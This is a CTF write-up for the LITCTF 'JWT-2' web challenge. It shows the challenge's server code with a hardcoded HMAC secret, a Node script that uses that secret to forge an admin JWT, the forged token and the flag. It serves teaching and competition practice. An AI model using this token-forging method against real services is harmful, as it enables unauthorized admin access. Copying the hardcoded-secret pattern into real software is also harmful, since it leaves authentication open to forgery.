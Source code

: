 ```yaml
---
layout: post
title:  "JWT-2"
description: Further exploiting JSON Web Tokens
date:   2024-08-14
tags: ["Web Exploitation", "LITCTF", "JSON", "Easy"]
category: [CTF,LITCTF]
---
```




# Challenge Info
`its like jwt-1 but this one is harder.
URL: http://litctf.org:31777/`

attached: [index.ts](https://drive.google.com/uc?export=downloads&id=18gNp6DphcZBI5UmGjKsXhCkZvF1aIB6F&name=index.ts)

![JWT-2](/assets/img/JWT-2/challenge.png)


## Preface
While this *is* a separate challenge, its fundamentals are heavily derived from the [first](/posts/jwt1) JWT challenge, which I heavily recommend you read first.


## Trying the first solution
Since this is a continuation of the **first** JWT challenge, I figured I'd try the same solution. A quick recap on how I beat the first one:

1. Register an account on the given site
2. Use Burpsuite intercept to capture the JWT associated with our account
3. Use [jwt.io](https://jwt.io) to read the contents of our JWT
4. Modify `admin` so that it equals to `true`
5. Access the "GET FLAG" button with our **new** JWT and acquire flag

For this challenge, while I **was** able to capture the JWT token and modify it to have `admin` set to `true`, upon actually using it, I was greeted with this:

![unauthorized](/assets/img/JWT-2/unauthorized.png)

## Inspecting the attached TypeScript file
By now, I realized this challenge wouldn't be as simple as the last one, so I decided to skim through the attached TypeScript file, which I'll leave down below:

```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payloads: object) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayloads).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayloads + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payloads, signature] = token.split(".");
    if (!header || !payloads || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payloads
    const decodedPayloads = Buffer.from(payloads, "base64").toString();
    // parse payloads
```
Just to highlight what this code does:

`const [header, payloads, signature] = token.split(".");`
- splits the JWT token into its three parts; header, payloads, and signature, and the `.` acts as a delimiter.

`if (!req.cookies.token)`
- checks if the token is missing, and responds with `403 Unauthorized` if it is.

`Buffer.from(header,"base64").toString()` `Buffer.from(payloads,"base64").toString()`
- The header and payloads are decoded from base64 to their original string format.


However, what's really making us hit our head is the following:
```js
const sign = (payloads: object) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayloads).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayloads + "." + signature;
```

This removes the `=` characters from both the base64-encoded payloads and signature. This is normal in JWTs though, and doesn't affect the token's validity. The main issue here isn't the removal of padding, but making sure that the token **we** craft adheres to this format.

## Solution

The payloads that I came up with:

```js

const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payloads) => {
  const jwtPayloads = Buffer.from(JSON.stringify(payloads), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto
    .createHmac("sha256", jwtSecret)
    .update(jwtHeader + "." + jwtPayloads)
    .digest("base64")
    .replace(/=/g, "");
  return jwtHeader + "." + jwtPayloads + "." + signature;
};

const payloads = { name: "your_username", admin: true };
const forgedToken = sign(payloads);
console.log(forgedToken); // This is the token you will use.
```

This payloads creates a token using the `xook` secret, modifies `admin` to `true`, and removes all padding (`=` characters).

Then, I replaced the old token in Burpsuite intercept with the new one: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieW91cl91c2VybmFtZSIsImFkbWluIjp0cnVlfQ.xwxnk5ogziOC8xlMNuolHBuQDbefnLA9rATCeS7fS+s`, and hit "forward".

![flag](/assets/img/JWT-2/flag.png)

flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
